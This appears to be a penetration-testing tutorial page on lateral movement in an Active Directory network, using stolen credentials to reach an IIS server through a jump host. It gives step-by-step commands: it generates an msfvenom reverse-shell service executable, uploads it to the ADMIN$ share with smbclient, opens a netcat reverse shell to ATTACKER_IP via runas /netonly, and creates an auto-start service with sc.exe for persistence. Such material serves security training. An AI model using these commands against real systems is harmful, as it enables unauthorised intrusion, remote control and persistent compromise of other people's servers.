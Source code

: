 # Example

Suppose the following scenario where we have obtained two sets of AD credentials:&#x20;

a. Low privileges (user)

b. Administrative access (admin)&#x20;

Our goal is to obtain a shell session on an _IIS_ server with administrative privileges. There are 2 servers we will be working with:

a. Intermediary (`jmp.test.com`)

b. IIS (`iis.test.com`)

Let's assume that the Intermediary server have no data that will be interesting to us, and it simply functions as an intermediary to get to the _IIS_ server. The main goal is the _IIS_ server, which is only accessible/routable from the intermediary server due to network restrictions, firewalls, etc.

The first set of AD credential allows us to gain a remote shell session on the intermediary machine (`jmp.domain`), via SSH.&#x20;

However, the _IIS_ server does not expose a SSH service. Thus, we need to make use of the session we have on the intermediary server to move laterally to the _IIS_ server (`iis.domain`) using the obtained admin credentials, to gain a remote session with administrative privileges.&#x20;

### (1) Using `sc.exe`

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754599(v=ws.11)" %}

#### 1. SSH into the intermediary server (with the first set of low-privileged credentials)

```sh
$ ssh test.com\\user@jmp.test.com
```

This will provide us a command prompt:

```
C:\> whoami
user
```

#### 2. Craft the reverse shell payload (`msfvenom`) and upload it to the IIS server (with admin credentials)

We can use `msfvenom`  to craft a payload in the `exe-service` format, which allows us to encapsulate our payload inside a fully functional service executable.

{% code title="Attacker" overflow="wrap" %}
```sh
# take note of the LPORT value, it is required when we are starting the msfconsole listener
$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=9999 -o <service_exec_name>.exe
```
{% endcode %}

**Uploading the payload**

Now, we can upload the payload to the _IIS_ server (`smbclient`), and subsequently start a listener with `msfconsole` :

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -L '//iis.test.com' -W xxx
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...

$smbclient -c "put <service_exec_name>.exe" -U admin -W xxx '//iis.test.com/admin$/' <password>
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the executable file created with msfvenom

_Start the msfconsole listener:_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 9999 
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 
```
{% endcode %}

{% embed url="https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient" %}

#### 3. Spawn a remote `/netonly` shell session on the intermediate server (as the admin)&#x20;

Start a listener on the attacker machine on eg. port **8888**

* This is the listener that provides us a remote shell session as the admin (next step)

{% code title="Attacker" %}
```sh
$ nc -lvnp 8888
```
{% endcode %}

From the remote shell session (step 1), we can spawn a new `/netonly` shell to allow us to perform network connections/requests as the admin:

{% code title="jmp.test.com (user)" overflow="wrap" %}
```sh
C:\> runas.exe /netonly /user:test.com\admin "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 8888"
```
{% endcode %}

The listener on port **8888** will receive a remote command prompt on `jmp.test.com` as the admin:

{% code title="jmp.test.com (admin)" %}
```
C:\> whoami
admin
```
{% endcode %}

#### 4. Start a service (`sc.exe`) on the _IIS_ server that automatically executes the uploaded reverse shell payload

Now, with a shell session as the admin, we can create a service executable that calls our uploaded `msfvenom` payload created earlier:

{% code title="jmp.test.com (admin)" overflow="wrap" %}
```powershell
# start powershell
C:\> powershell

PS> sc.exe \\iis.test.com create rvshell binPath= "%windir%\myservice.exe" start= auto
PS> sc.exe \\iis.test.com start rvshell
```
{% endcode %}

After performing the following actions, we will retrieve a reverse shell connection from the `msfconsole` session earlier anytime the _IIS_ server starts:

{% code title="iis.test.com (admin)" %}
```
C:\> whoami
admin
```
{% endcode %}

**Additional notes**

Note that it will not work if we tried to establish a reverse shell connection from the admin shell directly with `sc.exe` using the `binPath` option:

{% code title="Attacker (admin)" overflow="wrap" %}
```sh
$ sc.exe \\TARGET create <servicename> binPath= "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443" start= auto

$ sc.exe \\TARGET start <servicename>
```
{% endcode %}

This is because the service manager expects the executable that is being executed to function as a service executable (perform certain actions), which is different from standard `.exe` files, as with what we have provided. The method we have explored with `msfvenom` works as it encapsulates the payload within a valid service executable.
